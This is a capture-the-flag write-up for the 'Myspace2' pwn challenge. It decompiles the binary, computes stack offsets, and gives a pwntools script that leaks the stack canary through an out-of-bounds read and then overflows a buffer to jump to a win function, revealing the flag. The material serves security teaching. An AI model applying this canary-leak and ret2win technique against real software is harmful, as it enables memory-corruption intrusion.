 ```yaml
---
description: a ret2win with canary bypass pwn challenge
---
```


# Myspace2

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

given an ELF file.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

we see here the ELF file has a stack canary. Then we run the program

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

then we decompile the program using ghidra

main:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("I really miss MySpace. At least the part about ranking my friends. Let\'s recreate it!");
  local_78 = 0x6e316e337365;
  local_70 = 0x6f72655a;
  local_68 = 0x6e6f72746e6f43;
  local_60 = 0x317978696d;
  local_58 = 0x4c68736f4a;
  local_50 = 0x70707070616947;
  local_48 = 0x746e6f6673656349;
  local_40 = 0x78636974637261;
LAB_00401636:
  menu();
  fgets(local_38,0x28,stdin);
  iVar1 = FUN_00401160(local_38);
  if (iVar1 == 4) {
    if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
      return 0;
    }
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  if (iVar1 < 5) {
    if (iVar1 == 3) {
      display_friend(&local_78);
      goto LAB_00401636;
    }
    if (iVar1 < 4) {
      if (iVar1 == 1) {
        all_friends(&local_78);
      }
      else {
        if (iVar1 != 2) goto LAB_004016cd;
        edit_friend(&local_78);
      }
      goto LAB_00401636;
    }
  }
LAB_004016cd:
  puts("Invalid option.");
  goto LAB_00401636;
}
```

this ELF has two vulnerabilities. one at edit\_friend and another at display\_friend.

```c
void edit_friend(long param_1)

{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to edit (0-7): ");
  fgets(local_48,0x20,stdin);
  iVar1 = FUN_00401160(local_48);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  else {
    puts("Enter new name: ");
    fgets((char *)((long)iVar1 * 8 + param_1),0x100,stdin);
    sVar2 = strcspn((char *)(param_1 + (long)iVar1 * 8),"\n");
    *(undefined *)((long)iVar1 * 8 + param_1 + sVar2) = 0;
    puts("Friend updated.");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

```c
void display_friend(long param_1)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("\nEnter index to display (0-7): ");
  fgets(local_28,0x10,stdin);
  iVar1 = FUN_00401160(local_28);
  if ((iVar1 < 0) || (7 < iVar1)) {
    puts("Invalid index!");
  }
  write(1,(void *)(param_1 + (long)iVar1 * 8),8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

now for the exploit part. first we leak canary by exploiting arbitrary read vuln at display\_friend then we ret2win by exploiting buffer overflow vuln at edit\_friend.

we then use gdb to see the memory offsets

```armasm
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401584 <+0>:	endbr64
   0x0000000000401588 <+4>:	push   rbp
   0x0000000000401589 <+5>:	mov    rbp,rsp
   0x000000000040158c <+8>:	add    rsp,0xffffffffffffff80
   0x0000000000401590 <+12>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000401599 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000040159d <+25>:	xor    eax,eax
   0x000000000040159f <+27>:	mov    rax,QWORD PTR [rip+0x2aba]        # 0x404060 <stdout@GLIBC_2.2.5>
   0x00000000004015a6 <+34>:	mov    ecx,0x0
   0x00000000004015ab <+39>:	mov    edx,0x2
   0x00000000004015b0 <+44>:	mov    esi,0x0
   0x00000000004015b5 <+49>:	mov    rdi,rax
   0x00000000004015b8 <+52>:	call   0x401150 <setvbuf@plt>
   0x00000000004015bd <+57>:	lea    rax,[rip+0xb24]        # 0x4020e8
   0x00000000004015c4 <+64>:	mov    rdi,rax
   0x00000000004015c7 <+67>:	call   0x4010d0 <puts@plt>
   0x00000000004015cc <+72>:	movabs rax,0x6e316e337365
   0x00000000004015d6 <+82>:	mov    QWORD PTR [rbp-0x70],rax
```

this might seem confusing, but when we combine with ghidra decompile info, we know that main <+82> is where 'friends' array started and it is stored in **rbp-0x70**. We can also see where the canary is located, which is main <+21> and is stored in **rbp-0x8**.

Now we can calculate the offsets:

*   friends to canary:

    Offset = (Canary addr) - (Friends beginning addr)

    Offset = (rbp-0x8) - (rbp-0x70)

    Offset = -0x8 + 0x70 = **0x68 bytes (104 in decimal)**&#x20;
*   Canary leak:

    *   Display\_friend() function reads address from **friends\_addr + index \* 8**.

        Canary\_addr = friends\_addr + index \* 8

        (friends\_addr) + 0x68 = (friends\_addr) + index \* 8

        0x68 = index \* 8

        index = 0x68/8 = 104/8 = **13**



now after we got all the offsets we construct our exploit:

```python
from pwn import *

#p = process('./myspace2')
p = remote('myspace2.chal.idek.team', 1337)

def leak(index):
    p.sendlineafter(b'>>', b'3')
    p.sendlineafter(b'Enter index to display (0-7):', str(index).encode())
    p.recvuntil(b'Invalid index!\n')
    leaked = p.recv(8)
    return u64(leaked)

# Leak canary
canary = leak(13)
print(f"Canary: {hex(canary)}")

p.sendlineafter(b'>>', b'2')
p.sendlineafter(b'Enter index to edit (0-7):', b'0')

payload = b"A" * 104
payload += p64(canary)
payload += b"B" * 8
payload += p64(0x40129d)  # get_flag

p.sendlineafter(b'Enter new name:', payload)
p.sendlineafter(b'>>', b'4')
p.interactive()
```

#### Flag: idek{b4bys\_1st\_c00k1e\_leak\_yayyy!}
